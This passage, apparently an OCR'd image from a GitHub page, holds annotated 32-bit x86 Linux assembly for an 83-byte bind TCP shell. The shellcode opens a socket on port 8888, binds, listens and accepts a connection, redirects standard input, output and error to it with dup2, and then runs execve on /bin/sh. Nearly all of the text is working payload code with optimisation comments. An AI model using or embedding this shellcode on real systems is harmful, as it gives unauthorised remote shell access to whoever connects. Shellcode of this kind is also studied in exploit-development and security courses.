 ````
	pop eax			;defines syscall as sys_socketcall(number,args)
	mov ecx,esp		;loads the arguments on ecx
	int 0x80

	; Binding the TCP socket
	inc ebx                 ;ebx now is 0x2 to declare SYS_BIND function on sys_socketcall
	    ;*addr section
	push edx                ;INADDR_ANY = 0
	mov si,0xb822           ;loads the variable port on SI register
	push esi                ;PORT in htons = 8888
	push bx                 ;AF_INET = 2
	mov ecx,esp             ;saves the pointer of addr on ecx
	    ;now, store "sockfd,*addr,addrlen on ecx
	push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
	push ecx                ;loads the memory location of addr struct
	push eax                ;loads the fd
	mov ecx, esp
	pop edi			;saves the fd
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80                ;executes the call

	; Starting listening for incoming connections
	inc ebx			;is more efficient two "inc" than "add ebx,2"
	inc ebx			;ebx now is 0x4 to declare SYS_LISTEN function on sys_socketcall
	push edx                ;this null push is for next function, does not harm this, but does a trick to optmize code :)
	push edx                ;backlog = 0
	push edi                ;loads the fd
	mov ecx,esp             ;loads the arguments on ecx
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80

	; Accepting an incoming connection
	inc ebx                 ;ebx now is 0x5 to declare SYS_ACCEPT function on sys_socketcall
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80

	; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
	mov ebx,eax             ;saves the oldfd on ebx
	xor ecx,ecx		;zeroed ecx
	mov cl,0x03		;sets newfd to 3 for looping through stdout,stdin,stderr
Redirection:
	dec ecx			;decrements by 1 ecx to pass through stdout,stdin,stderr
        mov al,0x3f             ;syscall number for sys_dup2
        int 0x80                ;executes dup2(oldfd,$ecx) for redirect stdout,stdin,stderr
	jnz Redirection		;repeats this process until zero flag is set

	; Executing a shell
	push edx                ;loads NULL terminator
	push long 0x68732f2f    ;loads 'hs//'
	push long 0x6e69622f    ;loads 'nib/'
	mov ebx,esp             ;saves the pointer to '/bin//sh'
	;ecx & edx still contain NULL
	mov al,0x0b             ;configures eax for syscall - execve
	int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Optimized code for Bind TCP Shell (83 bytes)``
